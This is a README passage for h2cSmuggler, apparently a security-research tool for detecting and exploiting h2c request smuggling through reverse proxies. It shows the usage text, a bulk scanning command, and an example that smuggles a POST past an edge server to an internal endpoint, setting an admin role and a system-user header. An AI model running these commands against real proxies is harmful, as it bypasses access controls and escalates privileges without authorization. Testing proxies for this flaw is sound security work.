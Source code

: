 
For a deeper explanation of what is happening, check out the [technical writeup](https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c).

### Usage

h2cSmuggler uses a familiar curl-like syntax for describing the smuggled request:
```sh
usage: h2csmuggler.py [-h] [--scan-list SCAN_LIST] [--threads THREADS] [--upgrade-only] [-x PROXY] [-i WORDLIST] [-X REQUEST] [-d DATA] [-H HEADER] [-m MAX_TIME] [-t] [-v]
                      [url]

Detect and exploit insecure forwarding of h2c upgrades.

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  --scan-list SCAN_LIST
                        list of URLs for scanning
  --threads THREADS     # of threads (for use with --scan-list)
  --upgrade-only        drop HTTP2-Settings from outgoing Connection header
  -x PROXY, --proxy PROXY
                        proxy server to try to bypass
  -i WORDLIST, --wordlist WORDLIST
                        list of paths to bruteforce
  -X REQUEST, --request REQUEST
                        smuggled verb
  -d DATA, --data DATA  smuggled data
  -H HEADER, --header HEADER
                        smuggled headers
  -m MAX_TIME, --max-time MAX_TIME
                        socket timeout in seconds (type: float; default 10)
  -t, --test            test a single proxy server
  -v, --verbose
```
### Examples
1\. Scanning a list of URLs (e.g., `https://example.com:443/api/`, `https://example.com:443/payments`, `https://sub.example.com:443/`) to identify `proxy_pass` endpoints that are susceptible to smuggling (be careful with thread counts when testing a single server):

```
./h2csmuggler.py --scan-list urls.txt --threads 5
```

Or, to redirect output to a file. Use stderr (`2>`) and stdout (`1>`). The stderr stream contains errors (e.g., SSL handshake/timeout issues), while stdout contains results.

```
./h2csmuggler.py --scan-list urls.txt --threads 5 2>errors.txt 1>results.txt
```

2\. Sending a smuggled POST request past `https://edgeserver` to an internal endpoint:
```
./h2csmuggler.py -x https://edgeserver -X POST -d '{"user":128457 "role": "admin"}' -H "Content-Type: application/json" -H "X-SYSTEM-USER: true" http://backend/api/internal/user/permissions
```
